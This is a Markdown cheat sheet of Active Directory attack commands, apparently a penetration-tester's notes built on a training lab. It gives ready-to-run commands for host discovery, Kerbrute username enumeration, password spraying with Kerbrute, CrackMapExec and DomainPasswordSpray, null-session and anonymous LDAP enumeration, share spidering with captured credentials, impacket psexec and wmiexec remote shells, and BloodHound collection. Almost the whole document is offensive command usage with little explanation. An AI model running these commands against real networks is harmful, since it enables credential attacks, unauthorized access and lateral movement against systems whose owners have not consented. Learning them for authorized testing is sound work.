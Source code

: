 ## Scanning, Enumeration, Recon, External

Scan for live hosts on network
```
fping -asgq sub.net.ip/24
```

Kerbrute for internal AD username enumeration
```
sudo git clone https://github.com/ropnop/kerbrute.git
sudo make all
kerbrute userenum -d <domain.local> --dc <domain.ip.number> <usernametextfile-to-test> -o valid_ad_users.txt
```

Kerbrute can be used to password spray
```
/kerbrute_linux_amd64 passwordspray -d <lab.ropnop.com> <domain_users.txt> <Password123>
```

Password spray with Crackmapexec
```
crackmapexec smb <domain.ip> -u <user.list> -p <Password-to-try> //use --local-auth hen trying a local admin account
```

Windows domain spray internally - https://github.com/dafthack/DomainPasswordSpray
```
import-module domainpasswordspray.ps1
invoke-DomainPasswordSpray -password <password-to-try> -outfile <output.file> -errorAction silentlycontinue
```

Link for Kerbrute - https://github.com/ropnop/kerbrute

List of usernames - https://github.com/insidetrust/statistically-likely-usernames

Enumerate Password Policy with CME
```
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
crackmapexec smb 172.16.5.5 --users
```

rpcclient to check a Domain Controller for SMB NULL session access
```
rpcclient -U "" -N <domain.ip>
then querydomaininfo to check password policy
Can also use enumdomusers command
```

enum3linux can enumerate windows hosts and domains
```
enum4linux -P <domain.ip>
enum4linux -U <domain.ip>  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

enum4linux-ng is a rewrite and has additional features. -oA will output a JSON  and YAML file
```
enum4linux-ng -P <domain.ip> -oA save
```

Establish a null session on windows
```
net use \\DC01\ipc$ "" /u:""
```

LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. From Linux.
```
ldapsearch -h <dc.ip> -x -b "DC=<domain-name>,DC=<LOCAL>" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
Getting users with LDAP Anonymous
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

Windapsearch can be userd to enumerate users, DA
```
windapsearch.py --dc-ip <172.16.5.5> -u "" -U
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password --da //find domain admins
python3 windapsearch.py --dc-ip <172.16.5.5> -u <username>@<domainname.local> -p password --PU //find privileged users

```

## Initial Access

Enumerate users and spray passwords. Look for creds.

## Internal enumeration - Services, Accounts, Security Controls

Credentialed enumeration - We're interested in information about domain user and computer attributes, group membership, Group Policy Objects, permissions, ACLs, trusts, and more.

Crackmapexec for credentialed enumeration
```
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --groups
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --loggedon-users
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> --shares
sudo crackmapexec smb <domain.controller.ip> -u <username> -p <password> -M spider_plus --share "Share name" //CME will write results into a json file at /tmp/cme_spider_plus/<ip of host>
```

SMBmap can be used to enumerate shares
```
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip>
smbmap -u <username> -p <password> -d <domainName.LOCAL> -H <domain.controller.ip> -R <Name of share> --dir-only //Recursively list directories
```

Impacket toolset
```
psexec.py <domainName.local>/<username>:<'password'>@<target.ip> //psexec requires a user with local admin privileges
wmiexec.py <domainName.local>/<username>:<'password'>@<target.ip> //not a fully interactive shell
```

Bloodhound - Once domain creds are obtained, you can run bloodhound
```
sudo bloodhound-python -u <'username'> -p <'password'> -ns <172.16.5.5> -d <domainname.local> -c all
sudo neo4j start
bloodhound
```


